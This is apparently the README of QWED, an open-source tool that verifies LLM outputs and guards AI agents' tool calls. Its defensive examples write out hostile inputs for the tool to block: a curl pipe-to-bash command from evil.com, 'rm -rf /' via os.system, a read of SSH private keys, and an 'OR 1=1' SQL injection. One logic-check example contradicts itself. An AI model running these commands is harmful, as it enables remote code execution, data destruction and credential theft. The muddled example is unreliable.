

<div align="center">
  
  <h1>QWED Protocol</h1>
  <h3>Model-Agnostic Trust Boundary for AI Systems</h3>
  
  > **QWED Verification** - Production-grade deterministic trust boundary for LLMs, AI agents, and tool-driven systems. Works with **ANY LLM** - OpenAI, Anthropic, Gemini, Llama (via Ollama), or any local model. Detect and prevent AI hallucinations through multiple verification engines • agentic security guards • process determinism. **Your LLM, Your Choice, Our Verification.**
  
  <p>
    <b>Don't fix the liar. Verify the lie.</b><br>
    <i>QWED verifies outputs, processes, and tool interactions before they enter production.</i><br>
    <i>For supported proof domains, hallucinations cannot bypass deterministic verification.</i>
  </p>

  <p>
    <b>If critical AI output cannot be verified, QWED can block it before production.</b>
  </p>

  <p>
    <b>🌐 Model Agnostic:</b> Local ($0) • Budget ($5/mo) • Premium ($100/mo) - You choose!
  </p>

  [](https://codspeed.io/QWED-AI/qwed-verification?utm_source=badge)
  [](https://pypi.org/project/qwed/)
  [](https://hub.docker.com/r/qwedai/qwed-verification)
  [](LICENSE)
  [](https://www.bestpractices.dev/projects/11903)
  [](https://app.snyk.io)
  [](https://github.com/marketplace/qwed-security)
  [](https://sonarcloud.io/summary/new_code?id=QWED-AI_qwed-verification)
  [](https://doi.org/10.5281/zenodo.18111675)
  [](https://github.com/QWED-AI/qwed-verification)

  [-FC6D26?logo=gitlab&logoColor=white)](https://gitlab.com/qwed-ai/qwed-verification)

  <a href="https://www.nvidia.com/en-us/startups/"></a>
  <a href="https://github.com/developer-program"></a>

  <br>

  **💖 Support QWED Development:**
  
  <a href="https://github.com/sponsors/QWED-AI"></a>

  <br>
  
  [](https://x.com/rahuldass29)
  [](https://www.linkedin.com/in/rahul-dass-23b370b0/)
  [](https://docs.qwedai.com/blog/unreadable-code-agi-benchmark)

  <br>
  <a href="#-quick-start-install--verify-in-30-seconds">Quick Start</a> · 
  <a href="#-first-time-setup-qwed-init">🆕 qwed init</a> ·
  <a href="#-the-llm-hallucination-problem-why-ai-cant-be-trusted">The Problem</a> · 
  <a href="#verification-engines-and-agent-security-guards">The Engines & Guards</a> ·
  <a href="docs/INTEGRATION.md">🔌 Integration</a> ·
  <a href="docs/QWED_LOCAL.md">⚡ QWEDLocal</a> ·
  <a href="docs/CLI.md">🖥️ CLI</a> ·
  <a href="docs/OLLAMA_INTEGRATION.md">🆓 Ollama (FREE!)</a> ·
  <a href="https://docs.qwedai.com">📖 Full Documentation</a>
</div>

---

## Release Update: v5.3.0 — SymbolicVerifier: DiagnosticResult Reference Implementation

`v5.3.0` delivers the **first fully `DiagnosticResult`-conformant verification engine** — SymbolicVerifier is the reference implementation for all future engine migrations (META #216).

- **Reference implementation complete:** All 6 public methods (`verify_code`, `verify_function_contract`, `verify_safety_properties`, `verify_bounded`, `analyze_complexity`, `get_verification_budget`) return `DiagnosticResult`
- **`AdvisoryCheck` in production:** Non-proof-bearing analysis paths (budget advisory, complexity analysis, safety property checks) use the `advisory_checks` pattern — see `analyze_complexity`, `verify_safety_properties` in SymbolicVerifier for reference
- **`verification_mode` field:** Tracks bounded vs. unbounded analysis across every return path
- **Math fail-closed bugs fixed:** All three budget-exhaustion safety issues resolved (#129-#131)
- **Key rotation security:** Attestation key rotation with proof chain (#224)
- **12 engines remaining** — ecosystem-wide conformance tracked under META issue #216

If you're upgrading from `v5.2.x`, review the [changelog](CHANGELOG.md) for the full migration notes.

---

## Where QWED Fits First

Use QWED when an LLM or AI agent must not guess:

- Verify AI-generated math, logic, SQL, code, and schemas before execution  
- Protect RAG pipelines against prompt injection and poisoned context  
- Inspect AI agent tool calls before they reach external systems  
- Enforce deterministic process steps in high-stakes workflows  

**QWED is strongest when AI output touches money, code, tools, policy, or production systems.**

## ⚡ One-Line Example

LLM says: `DELETE FROM users WHERE id=1 OR 1=1`

QWED says: ❌ Blocked — SQL injection detected before execution.

---

**QWED does not just validate answers — it defines what AI is allowed to trust.**

---

> **⚠️ What QWED Is (and Isn't)**
> 
> **QWED is:** An open-source engineering layer that combines symbolic verification, security guards, and deterministic process checks for AI systems.
> 
> **QWED is NOT:** Novel research. We don't claim algorithmic innovation. We claim practical integration for production use cases.
> 
> **Works when:** Developer provides ground truth (expected values, schemas, contracts) and LLM generates structured output.
> 
> **Doesn't work when:** Specs come from natural language, outputs are freeform text, or verification domain is unsupported.

> **🔬 On "Deterministic" Verification**
> 
> QWED uses **deterministic computation** (no neural networks, no embeddings, no vibes) wherever possible. Math, Logic, SQL, Code, and Schema engines produce 100% reproducible results using symbolic solvers. For fact-checking, we use TF-IDF (not embeddings) because it's transparent and inspectable—same query always returns same score. Non-verifiable or heuristic signals are carried as `advisory_checks` in the diagnostic result — never promoted to a verification status. See [Engine Classification](#target-engine-architecture) for which engines produce proofs vs. structured advisories.


## 🔐 Ecosystem Trust & Infrastructure

QWED is supported by leading open-source infrastructure and security ecosystems, ensuring production-grade reliability for AI verification workloads.

[](https://hub.docker.com/r/qwedai/qwed-verification/tags)
[](https://www.cloudflare.com/)
[](https://circleci.com/)
[](https://buildkite.com/qwed-ai/qwed-verification)
[](https://codecov.io/gh/QWED-AI/qwed-verification)
[](https://qwed-ai.sentry.io)

### Sponsored & Supported Programs

*   **Docker Sponsored Open Source (DSOS)**
    Verified container distribution, Docker Scout security insights, autobuilds, and pull rate-limit removal.
*   **Snyk Open Source Security Program**
    Enterprise-grade SAST, dependency scanning, and container vulnerability monitoring.
*   **CircleCI Open Source Program**
    Scalable CI/CD pipelines with high-volume build credits.
*   **Cloudflare Project Alexandria**
    Edge compute (Workers), CDN, and security infrastructure sponsorship.
*   **Sentry**
    Observability, error tracking, and verification risk monitoring.
*   **Netlify Open Source Plan**
    Frontend hosting and deployment infrastructure.
*   **Mintlify OSS Program**
    Documentation hosting and developer experience tooling.

### Why This Matters

Verification infrastructure must itself be verifiable. These ecosystem partnerships ensure that:

*   Containers are securely built and distributed
*   Code is continuously scanned for vulnerabilities
*   Supply chain risks are minimized
*   Verification failures are observable and auditable
*   Deployments scale reliably across environments

> **QWED's mission is to provide deterministic trust for AI systems — and that trust begins with the infrastructure it runs on.**

---

## 📦 Installation & Quick Start

### Python SDK (PyPI)
```bash
pip install qwed
# Note: Installs core engines (Math, Code, Facts).
# For full features (SQL, Logic/Z3, CrossHair):
# pip install "qwed[full]"
```

### Go SDK
```bash
go get github.com/QWED-AI/qwed-verification/sdk-go
```

### TypeScript SDK (npm)
```bash
npm install @qwed-ai/sdk
```

### Docker
```bash
docker pull qwedai/qwed-verification
```

### From Source
```bash
git clone https://github.com/QWED-AI/qwed-verification.git
cd qwed-verification
pip install -e .
```

---

```python
from qwed_sdk import QWEDClient

client = QWEDClient(api_key="your_key")

# The LLM says: "Derivative of x^2 is 3x" (Hallucination!)
response = client.verify_math(
    query="What is the derivative of x^2?",
    llm_output="3x" 
)

print(response)
# -> ❌ CORRECTED: The derivative is 2x. (Verified by SymPy)
```

**💡 Want to use QWED locally without our backend?** Check out [QWEDLocal](docs/QWED_LOCAL.md) - works with Ollama (FREE), OpenAI, Anthropic, or any LLM provider.

---

## 🚀 First-Time Setup: `qwed init`

The fastest way to get QWED running with your LLM provider:

```bash
mkdir my-project && cd my-project
qwed init
```

What happens:

```
[QWED] Initializing verification engines...
  [ok] SymPy    math engine ready
  [ok] Z3       logic engine ready
  [ok] AST      code engine ready
  [ok] SQLGlot  sql engine ready

Running verification suite...
  [ok] 2+2=5                    -> BLOCKED
  [ok] x>5 AND x<3              -> UNSAT
  [ok] SELECT * WHERE 1=1       -> BLOCKED
  [ok] eval(user_input)         -> BLOCKED

All engines verified. QWED is operational.

Step 1/3: Select your LLM provider (NVIDIA, OpenAI, Anthropic, Gemini, Custom)
Step 2/3: Enter API key — tested with 5s timeout, stored securely (.env, 0600)
Step 3/3: QWED API key generated — shown once, save it

QWED is ready.
```

After init, verify your setup:

```bash
qwed doctor
```

```
[QWED Doctor] Health Report
  [ok] ACTIVE_PROVIDER  openai_compat
  [ok] DATABASE_URL     sqlite:///qwed.db
  [ok] API key          valid (tested)
  [ok] SymPy            math engine ready
  [ok] Z3               logic engine ready
  [ok] SQLGlot          sql engine ready
  [ok] AST              code engine ready

All checks passed.
```

```bash
qwed test     # 12 deterministic tests — all must pass before production
```

```
[QWED Test] Running verification suite...
  [pass] Math:   derivative of x^2 → 2x
  [pass] Math:   integral of x^2 → x^3/3
  [pass] Logic:  x>5 AND x<3 → UNSAT
  [pass] SQL:    SELECT * WHERE 1=1 → BLOCKED
  [pass] Code:   eval(user_input) → BLOCKED
  ... 7 more
12/12 passed ✅
```

**Supported providers:**

```bash
qwed init --provider nvidia     # NVIDIA NIM
qwed init --provider openai     # OpenAI
qwed init --provider anthropic  # Anthropic Claude
qwed init --provider gemini     # Google Gemini
qwed init --provider custom     # Any OpenAI-compatible API
```

**CI/CD friendly — no interactive prompts:**

```bash
# Using flags
qwed init --non-interactive --provider nvidia

# Using env vars
NVIDIA_API_KEY=xxx qwed init --non-interactive
```

---

## 🚨 The LLM Hallucination Problem: Why AI Can't Be Trusted

Everyone is trying to fix AI hallucinations by **Fine-Tuning** (teaching it more data).

This is like forcing a student to memorize 1,000,000 math problems.

**What happens when they see the 1,000,001st problem? They guess.**


## 🎯 Use Cases & Applications

QWED is designed for industries where AI errors have real consequences:

| Industry | Use Case | Risk Without QWED |
|----------|----------|-------------------|
| 🤖 **AI Agents** | Tool-call verification, MCP defense, process checks | Unsafe tool execution |
| 🏦 **Financial Services** | Transaction validation, fraud detection | $12,889 error per miscalculation |
| 🏥 **Healthcare AI** | Drug interaction checking, diagnosis verification | Patient safety risks |
| ⚖️ **Legal Tech** | Contract analysis, compliance checking | Regulatory violations |
| 📚 **Educational AI** | AI tutoring, assessment systems | Misinformation to students |
| 🏭 **Manufacturing** | Process control, quality assurance | Production defects |

---

## ✅ The Solution: Deterministic Trust Boundary

**QWED** is an open-source deterministic verification layer combining symbolic solvers and practical security guards for LLM systems.

We combine:
- **Neural Networks** (LLMs) for natural language understanding
- **Symbolic Reasoning** (SymPy, Z3, AST) for deterministic verification

## 🛡️ Agent Security Guards

QWED verifies not only outputs, but agent toolchains with specialized guards:

- **SystemGuard** — Shell command verification
- **ConfigGuard** — Secrets scanning in configs
- **RAGGuard** — RAG retrieval mismatch prevention
- **MCPPoisonGuard** — MCP tool definition poisoning detection
- **ExfiltrationGuard** — Runtime data exfiltration prevention
- **SelfInitiatedCoTGuard** — Reasoning path verification
- **SovereigntyGuard** — Agent sovereignty boundary enforcement
- **StartupHookGuard** — Environment integrity startup detection
- **ProcessVerifier** — Deterministic process validation (IRAC)

### The Core Philosophy: "The Untrusted Translator"

QWED operates on a strict principle: **Don't trust the LLM to compute or judge; trust it only to translate.**

**Example Flow:**
```
User Query: "If all A are B, and x is A, is x B?"

↓ (LLM translates)

Z3 DSL: Implies(A(x), B(x))

↓ (Z3 proves)

Result: TRUE (Proven by formal logic)
```

The LLM is an **Untrusted Translator**. The Symbolic Engine is the **Trusted Verifier**.

---

## 💡 How QWED Compares: The "Orchestrator" Strategy

We don't reinvent the wheel. We unify the best symbolic engines into a single **LLM-Verification Layer**.

### QWED vs Point Solutions (Libraries)
QWED wraps best-in-class libraries, abstracting their complex DSLs into a simple natural language interface for LLMs.

| Library | Domain | QWED's Role |
|---------|--------|-------------|
| **Pandera** | Dataframe Validation | **Orchestrator:** QWED uses Pandera for `verify_data` schema checks. |
| **CrossHair** | Code Contracts | **Orchestrator:** QWED uses CrossHair for formal python verification. |
| **SymPy** | Symbolic Math | **Orchestrator:** QWED translates "Derivative of x^2" → SymPy execution. |
| **Z3 Prover** | Theorem Proving | **Orchestrator:** QWED translates logical paradoxes → Z3 constraints. |

### QWED vs AI Guardrails (Frameworks)

| Feature | **QWED Protocol** | NeMo Guardrails | LangChain Evaluators |
|---------|-------------------|-----------------|----------------------|
| **The "Judge"** | **Deterministic Solver** (Z3/SymPy) | Semantic Matcher (Embeddings) | Another LLM (GPT-4) |
| **Mechanism** | Translation to DSL | Vector Similarity | Prompt Engineering |
| **Verification Type** | **Mathematical Proof** | Policy Adherence | Consensus/Opinion |
| **False Positives** | Bounded by proof semantics (see [Engine Classification](#target-engine-architecture)) | Medium (Semantic drift) | High (Subjectivity) |
| **Privacy** | **✅ 100% Local** | ❌ Cloud-based (usually) | ❌ Cloud-based |

> **QWED differs because it provides PROOF, not just localized safety checks.**

---

## 🔬 Verification Engines and Agent Security Guards

QWED routes queries to specialized engines that act as DSL interpreters, plus agent security guards for runtime protection.


```
┌──────────────┐
│  User Query  │
└──────┬───────┘
       │
       ▼
┌────────────────────────┐
│  LLM (The Translator)  │
│  "Translate to Math"   │
└──────┬─────────────────┘
       │ DSL / Code
       ▼
┌─────────────────────────────┐
│      QWED Protocol          │
│  (Zero-Trust Verification)  │
├─────────────────────────────┤
│ 🧮 SymPy   ⚖️ Z3   🛡️ AST   │
└──────────────┬──────────────┘
       │ Proof / Result
   ┌───┴───┐
   ▼       ▼
❌ Reject ✅ Verified
           │
           ▼
  ┌─────────────────┐
  │ Your Application│
  └─────────────────┘
```

---

## QWED 🆚 Traditional AI Safety Approaches

| Approach | Accuracy | Deterministic | Explainable | Best For |
|----------|----------|---------------|-------------|----------|
| **QWED (Proof Engines)** | ✅ Proof-backed deterministic | ✅ Yes | ✅ Full trace + proof_ref | Production AI |
| **QWED (Policy Enforcement Engines)** | ✅ Rule-based deterministic | ✅ Yes | ✅ Decision trace | Runtime guard |
| **QWED (Advisory Engines)** | ⚠️ Structured heuristic | ❌ No | ✅ Structured diagnostics | Audit & review |
| Fine-tuning / RLHF | ⚠️ ~85% | ❌ No | ❌ Black box | General improvement |
| RAG (Retrieval) | ⚠️ ~80% | ❌ No | ⚠️ Limited | Knowledge grounding |
| Prompt Engineering | ⚠️ ~70% | ❌ No | ⚠️ Limited | Quick fixes |
| Guardrails | ⚠️ Variable | ❌ No | ⚠️ Reactive | Content filtering |

> **QWED doesn't replace these - it complements them with mathematical certainty.**

---

## 🔬 The Verification Engines: Examples

QWED routes queries to specialized engines that act as DSL interpreters.

### 1. 🧮 Math Verifier (SymPy)
**Use Case:** Financial logic, Physics, Calculus.
```python
# LLM: "The integral of x^2 is 3x" (Wrong)
client.verify_math(
    query="Integral of x^2",
    llm_output="3x"
)
# -> ❌ CORRECTED: x^3/3 (Verified by SymPy)
```

### 2. ⚖️ Logic Verifier (Z3 Prover)
**Use Case:** Contract analysis, finding contradictions.
```python
# LLM: "Start date is Monday. End date is 3 days later, which is Thursday."
client.verify_logic(
    query="If start is Monday, what is 3 days later?",
    llm_output="Thursday"
)
# -> ❌ WRONG: 3 days after Monday is Thursday. 
# Wait, actually: Mon -> Tue(1) -> Wed(2) -> Thu(3).
# But if it finds a contradiction:
# "All politicians are liars. Bob is a politician. Bob tells the truth."
# -> ❌ CONTRADICTION FOUND (Proven by Z3)
```

### 3. 🗄️ SQL Verifier (SQLGlot)
**Use Case:** preventing SQL Injection and Hallucinated Columns.
```python
# LLM: "Delete all users where id=1 OR 1=1"
client.verify_sql(
   query="Delete user 1",
   schema="CREATE TABLE users (id INT)",
   llm_output="DELETE FROM users WHERE id=1 OR 1=1"
)
# -> ❌ SECURITY ALERT: SQL Injection Detected (Always True condition)
```

### 4. 🛡️ Code Verifier (AST + CrossHair)
**Use Case:** Detecting harmful Python/JS code.
```python
client.verify_code(
    code="import os; os.system('rm -rf /')"
)
# -> ❌ SECURITY ALERT: Forbidden function 'os.system' detected.
```

### 5. 🔐 System Integrity (Shell & Config Guard)
**Use Case:** Preventing RCE in AI Agents, detecting leaked secrets.
```python
# Block dangerous shell commands (rm, sudo, curl|bash)
client.verify_shell_command("curl http://evil.com | bash")
# -> ❌ BLOCKED: PIPE_TO_SHELL (RCE risk)

# Sandbox file access
client.verify_file_access("~/.ssh/id_rsa")
# -> ❌ BLOCKED: FORBIDDEN_PATH (SSH keys protected)

# Scan config for plaintext secrets
client.verify_config({"api_key": "sk-proj-abc123..."})
# -> ❌ SECRETS_DETECTED: OPENAI_API_KEY at 'api_key'
```

### Target Engine Architecture

> **Note:** This section describes the target `DiagnosticResult` architecture under META #216. SymbolicVerifier is the reference implementation; remaining engines are being migrated incrementally. Most engines currently return legacy types (e.g., `Dict[str, Any]` with `verified` boolean, `ImageVerificationResult`).

```
                QWED Verification

      ┌─────────────────────────────────┐
      │        Proof Engines            │
      │    VERIFIED + proof_ref         │
      │    Deterministic verification   │
      │    ───────────────────────      │
      │    Output: Evidence             │
      └─────────────────────────────────┘
                    │
                    ▼
      ┌─────────────────────────────────┐
      │ Policy Enforcement Engines      │
      │ BLOCK / UNVERIFIABLE            │
      │ Rule-based deterministic        │
      │    ───────────────────────      │
      │    Output: Decision             │
      └─────────────────────────────────┘
                    │
                    ▼
      ┌─────────────────────────────────┐
      │ Advisory Engines                │
      │ AdvisoryCheck only              │
      │ Structured heuristic analysis   │
      │    ───────────────────────      │
      │    Output: Analysis             │
      └─────────────────────────────────┘
```

**Proof Engines** — Deterministic verification with `proof_ref`. Can emit `VERIFIED`. `VERIFIED` requires a `proof_ref`.
- Math (SymPy) · Logic (Z3) · SQL (SQLGlot) · Code (AST) · Schema · Stats (Pandera) · Symbolic (CrossHair)

**Policy Enforcement Engines** — Apply deterministic policies and produce enforcement decisions. They do not produce mathematical proofs. Emit `BLOCK` / `UNVERIFIABLE`.
- SystemGuard · ConfigGuard · RAGGuard · MCPPoisonGuard · ExfiltrationGuard · SelfInitiatedCoTGuard · SovereigntyGuard · StartupHookGuard · ProcessVerifier

**Advisory Engines** — Structured heuristic analysis. Emit `AdvisoryCheck` only. These engines cannot emit `VERIFIED`.
- Image · Graph · Reasoning · Consensus · Fact (TF-IDF)

---

## 📊 The Proof: Why Enterprise AI Needs QWED Verification

We benchmarked **Claude Opus 4.5** (one of the world's best LLMs) on 215 critical tasks.



| Finding | Implication |
|---------|-------------|
| **Finance:** 73% accuracy | Banks can't use raw LLM for calculations |
| **Adversarial:** 85% accuracy | LLMs fall for authority bias tricks |
| **QWED:** 100% error detection | All 22 errors caught before production |

> **QWED doesn't compete with LLMs. We ENABLE them for production use.**

📄 [Full Benchmark Report →](docs/benchmarks.md)

---

## 🧠 The QWED Philosophy: Verification Over Correction

| ❌ Wrong Approach | ✅ QWED Approach |
|-------------------|------------------|
| "Let's fine-tune the model to be more accurate" | "Let's verify the output with math" |
| "Trust the AI's confidence score" | "Trust the symbolic proof" |
| "Add more training data" | "Add a verification layer" |
| "Hope it doesn't hallucinate" | "Catch hallucinations deterministically" |

**QWED = Query with Evidence and Determinism**

> **Probabilistic systems should not be trusted with deterministic tasks.**
> **If it can't be verified, it doesn't ship.**
> *(When QWED is integrated into your deployment workflow.)*

---

## 🔌 LLM Framework Integrations

Already using an Agent framework? QWED drops right in.

### 🦜 LangChain (Native Integration)

**Install:** `pip install 'qwed[langchain]'`

```python
from qwed_sdk.integrations.langchain import QWEDTool
from langchain.agents import initialize_agent
from langchain_openai import ChatOpenAI

# Initialize QWED verification tool
tool = QWEDTool(provider="openai", model="gpt-4o-mini")

# Add to your agent
llm = ChatOpenAI()
agent = initialize_agent(tools=[tool], llm=llm)

# Agent automatically uses QWED for verification
agent.run("Verify: what is the derivative of x^2?")
```

### 🤖 CrewAI

```python
from qwed_sdk.integrations.crewai import QWEDVerifiedAgent

agent = QWEDVerifiedAgent(role="Analyst", verify_math=True)
```

### 🦙 LlamaIndex

```python
from qwed_sdk.integrations.llamaindex import QWEDQueryEngine

# Add Fact Guard verification to any query engine
verified_engine = QWEDQueryEngine(base_engine, verify_facts=True)
```

---

## 🔒 Security & Privacy

In high-stakes industries (Finance, Legal, Healthcare), you cannot send sensitive data to an external API for verification.

**QWED is designed for Zero-Trust environments:**

*   **100% Local Execution:** QWED runs inside your infrastructure (Docker/Kubernetes). Data never leaves your VPC.
*   **Privacy Shield (New):** Built-in **PII Masking** redacts Credit Cards, SSNs, and Emails *before* they touch the LLM.
*   **No "Model Training":** We do not train on your data. QWED is a deterministic code execution engine, not a generative model.
*   **Audit Logs:** Every verification generates a structured verification record with `proof_ref` — a SHA-256 hash binding the verdict to the evidence that justified it.

> **"Don't trust the AI. Trust the Code."**

---

## 🏛️ Authority Verification (Phase 9)

*   **No More Fake Cases:** `CitationGuard` (Legal) verifies legal citations against valid reporter formats (e.g., Bluebook).
*   **Banking Ready:** `ISOGuard` (Finance) ensures AI payments meet ISO 20022 standards.
*   **Ethical AI:** `DisclaimerGuard` (Core) enforces safety warnings in regulated outputs.

---

## 🗺️ Roadmap

We are building the **Universal Verification Standard** for the agentic web.

### Completed

- **✔ DiagnosticResult model** — Unified 3-layer diagnostic contract, `proof_ref` authority bit, `AdvisoryCheck` pattern (v5.2.0)
- **✔ SymbolicVerifier migration** — First fully `DiagnosticResult`-conformant engine; serves as reference implementation (v5.3.0)

### In Progress

- **Remaining verification engines (#216)** — Migrating the 12 remaining engines to the `DiagnosticResult` model

### Planned

- **v6.0:** QWED Client-Side (WebAssembly), Distributed Verification Network, cross-ecosystem proof exchange

---

## 🌐 The QWED Ecosystem

QWED verification is available as specialized packages for different industries:

### 📦 Packages

| Package | Description | Install | Repo |
|---------|-------------|---------|------|
| **qwed** (core) | Verification engines + agent security guards | `pip install qwed` | [GitHub](https://github.com/QWED-AI/qwed-verification) |
| **qwed-infra** ☁️ | IaC verification (Terraform, IAM, Cost, Artifact boundary) | `pip install qwed-infra` | [GitHub](https://github.com/QWED-AI/qwed-infra) |
| **qwed-tax** 💸 | Tax compliance & withholding verification middleware | `pip install qwed-tax` | [GitHub](https://github.com/QWED-AI/qwed-tax) |
| **qwed-mcp** 🔌 | Claude Desktop MCP integration | `pip install qwed-mcp` | [GitHub](https://github.com/QWED-AI/qwed-mcp) |
| **qwed-open-responses** 🤖 | OpenAI Responses API + QWED guards | `pip install qwed-open-responses` | [GitHub](https://github.com/QWED-AI/qwed-open-responses) |

### 🎬 GitHub Actions

> 🏪 **[QWED Security](https://github.com/marketplace/qwed-security)** is currently a **Verified Publisher ✓** on GitHub Marketplace — install it to auto-verify every PR with deterministic math, logic, and security checks.

Use QWED verification in your CI/CD pipelines:

```yaml
# Secret Scanning - Detect leaked API keys
- uses: QWED-AI/qwed-verification@v5
  with:
    action: scan-secrets
    paths: "**/*.env,**/*.json"

# Code Security - Find dangerous patterns (eval, exec, subprocess)
- uses: QWED-AI/qwed-verification@v5
  with:
    action: scan-code
    paths: "**/*.py"
    output_format: sarif  # Integrates with GitHub Security tab

# Shell Script Linting - Block RCE patterns (curl|bash, rm -rf)
- uses: QWED-AI/qwed-verification@v5
  with:
    action: verify-shell
    paths: "**/*.sh"

# LLM Output Verification (Math, Logic, Code)
- uses: QWED-AI/qwed-verification@v5
  with:
    action: verify
    engine: math
    query: "Integral of x^2"
    llm_output: "x^3/3"
```

| Action | Use Case | Marketplace |
|--------|----------|-------------|
| `QWED-AI/qwed-verification@v5` | Secret scanning, code analysis, SARIF output | [View](https://github.com/marketplace/actions/qwed-protocol-verification) |
| `QWED-AI/qwed-legal@v0.2.0` | Contract deadline, jurisdiction, citations | [View](https://github.com/marketplace/actions/qwed-legal-verification) |
| `QWED-AI/qwed-finance@v1` | NPV, loan calculations, compliance | [View](https://github.com/marketplace/actions/qwed-finance-guard) |
| `QWED-AI/qwed-ucp@v1` | E-commerce transactions | [View](https://github.com/marketplace/actions/qwed-commerce-auditor) |

### 🎓 Free Course on AI Verification

**Learning Path: From Zero to Production-Ready AI Verification**

[](https://github.com/QWED-AI/qwed-learning)

- 💡 Artist vs. Accountant: Why LLMs are creative but terrible at math
- 🧮 Neurosymbolic AI: How deterministic verification catches errors
- 🏗️ Production Patterns: Build guardrails that actually work
- 🦜 Framework Integration: LangChain, LlamaIndex, and more

**🚀 [Start the Free Course →](https://github.com/QWED-AI/qwed-learning)**

📖 [Full Ecosystem Documentation](https://docs.qwedai.com)

---

## 🌍 Multi-Language SDK Support

| Language | Package | Status |
|----------|---------|--------|
| [🐍 Python](./qwed_sdk/) | `qwed` | ✅ Available on PyPI |
| [🟦 TypeScript](./sdk-ts/) | `@qwed-ai/sdk` | ✅ Available on npm |
| [🐹 Go](./sdk-go/) | `qwed-go` | ✅ Available |
| [🦀 Rust](./sdk-rust/) | `qwed` | ✅ Available on crates.io |

```bash
# Python
pip install qwed

# Go
go get github.com/QWED-AI/qwed-verification/sdk-go

# TypeScript
npm install @qwed-ai/sdk

# Rust
cargo add qwed
```

---

## 🎯 Real Example: The $12,889 Bug

**User asks AI:** "Calculate compound interest: $100K at 5% for 10 years"

**GPT-4 responds:** "$150,000"  
*(Used simple interest by mistake)*

**With QWED:**
```python
response = client.verify_math(
    query="Compound interest: $100K, 5%, 10 years",
    llm_output="$150,000"
)
# -> ❌ INCORRECT: Expected $162,889.46
#    Error: Used simple interest formula instead of compound
```

**Cost of not verifying:** $12,889 error per transaction 💸

---

## 🧑‍💻 Development & Testing

### Building from Source

```bash
# Clone and install in development mode
git clone https://github.com/QWED-AI/qwed-verification.git
cd qwed-verification
pip install -e ".[dev]"
```

### Running Tests

```bash
# Run all tests
pytest tests/ -v

# Run with coverage
pytest tests/ -v --cov=src/qwed_new --cov-report=html

# Run specific test file
pytest tests/test_math_verifier.py -v
```

### Static Analysis & Linting

QWED uses multiple tools for code quality:

```bash
# Type checking
mypy src/

# Linting
ruff check src/

# Security scanning (Snyk integration in CI)
# See .github/workflows/ci.yml
```

### Continuous Integration

All PRs run through GitHub Actions:
- ✅ Unit tests (Python 3.10, 3.11, 3.12)
- ✅ Type checking (mypy)
- ✅ Security scanning (Snyk, CodeRabbit)
- ✅ Coverage reporting (Codecov)

See [`.github/workflows/ci.yml`](.github/workflows/ci.yml) for details.

---

## ❓ Frequently Asked Questions

### Q: Is QWED for AI agents or only LLM outputs?
**A:** Both. QWED started as deterministic output verification and now includes trust guards for agent toolchains, RAG pipelines, and process validation.

### Q: How does QWED differ from RAG (Retrieval Augmented Generation)?
**A:** RAG improves the *input* to the LLM by grounding it in documents. QWED verifies the *output* deterministically. RAG adds knowledge; QWED adds certainty.

### Q: Can QWED work with any LLM?
**A:** Yes! QWED is model-agnostic and works with GPT-4, Claude, Gemini, Llama, Mistral, and any other LLM. We verify outputs, not models.

### Q: Does QWED replace fine-tuning?
**A:** No. Fine-tuning makes models better at tasks. QWED verifies they got it right. Use both.

### Q: Is QWED open source?
**A:** Yes! Apache 2.0 license. Enterprise features (audit logs, multi-tenancy) are in a separate repo.

### Q: What's the latency overhead?
**A:** Typically <100ms for most verifications. Math and logic proofs are instant. Consensus checks take longer (multiple API calls).

### Q: Do I need to run `qwed init` every time?
**A:** No. Once initialized, QWED reads from `.env`. Re-run only when changing providers or rotating keys.

---

## 📚 Documentation & Resources

**Main Documentation:**
| Resource | Description |
|----------|-------------|
| [📖 Full Documentation](https://docs.qwedai.com) | Complete API reference and guides |
| [🔧 API Reference](https://docs.qwedai.com/docs/api/overview) | Endpoints and schemas |
| [⚡ QWEDLocal Guide](docs/QWED_LOCAL.md) | Client-side verification setup |
| [🖥️ CLI Reference](docs/CLI.md) | Command-line interface |
| [🔒 PII Masking Guide](docs/PII_MASKING.md) | HIPAA/GDPR compliance |
| [🆓 Ollama Integration](docs/OLLAMA_INTEGRATION.md) | Free local LLM setup |

**Project Documentation:**
| Resource | Description |
|----------|-------------|
| [📊 Benchmarks](docs/benchmarks.md) | LLM accuracy testing results |
| [🗺️ Project Roadmap](docs/roadmap.md) | Future features and timeline |
| [📋 Changelog](docs/changelog.md) | Version history summary |
| [📜 Release Notes](docs/releases/) | Detailed version release notes |
| [🎬 GitHub Action Guide](docs/github-action.md) | CI/CD integration |
| [🏗️ Architecture](docs/ARCHITECTURE.md) | System design and engine internals |

**Community:**
| Resource | Description |
|----------|-------------|
| [🤝 Contributing Guide](CONTRIBUTING.md) | How to contribute to QWED |
| [GOVERNANCE.md](GOVERNANCE.md) | Project governance & roles |
| [ROADMAP.md](ROADMAP.md) | Future plans & vision |
| [📜 Code of Conduct](CODE_OF_CONDUCT.md) | Community guidelines |
| [🔒 Security Policy](SECURITY.md) | Reporting vulnerabilities |
| [📖 Citation](docs/CITATION.cff) | Academic citation format |

---

## 🏢 Enterprise Features

Need **observability**, **multi-tenancy**, **audit logs**, or **compliance exports**?

📧 Contact: **rahul@qwedai.com**

---


## 📄 License

Apache 2.0 - See [LICENSE](LICENSE)

---

## ⭐ Star History

[](https://star-history.com/#QWED-AI/qwed-verification&Date)

<details>
<summary>If chart doesn't load, click here for alternatives</summary>

**Current Stars:** [](https://github.com/QWED-AI/qwed-verification/stargazers)

**View trend:** [Star History Page](https://star-history.com/#QWED-AI/qwed-verification&Date)

</details>

---

## 👥 Contributors

<a href="https://github.com/rahuldass19">
  
</a>
<a href="https://github.com/Pryce22">
  
</a>

Thanks to everyone building QWED, especially [@Pryce22](https://github.com/Pryce22) our first contributor.

> Future contributors should be added here as they merge, or this section can later be switched back to an automatic contributors widget. [See all contributors →](https://github.com/QWED-AI/qwed-verification/graphs/contributors)

---

## 📄 Citation

If you use QWED in your research or project, please cite our archived paper:

```bibtex
@software{dass2025qwed,
  author = {Dass, Rahul},
  title = {QWED Protocol: Deterministic Verification for Large Language Models},
  year = {2025},
  publisher = {Zenodo},
  version = {v5.3.0},
  doi = {10.5281/zenodo.18111675},
  url = {https://doi.org/10.5281/zenodo.18111675}
}
```

**Plain text:**
> Dass, R. (2025). QWED Protocol: Deterministic Verification for Large Language Models (Version v5.3.0). Zenodo. https://doi.org/10.5281/zenodo.18111675

---

## ✅ Using QWED in Your Project?

Add these badges to your README to show you're using verified AI:

### Badge Variants

| Badge | Use Case | Markdown |
|-------|----------|----------|
| [](https://github.com/QWED-AI/qwed-verification#%EF%B8%8F-what-does-verified-by-qwed-mean) | **General** - Any QWED integration | See below |
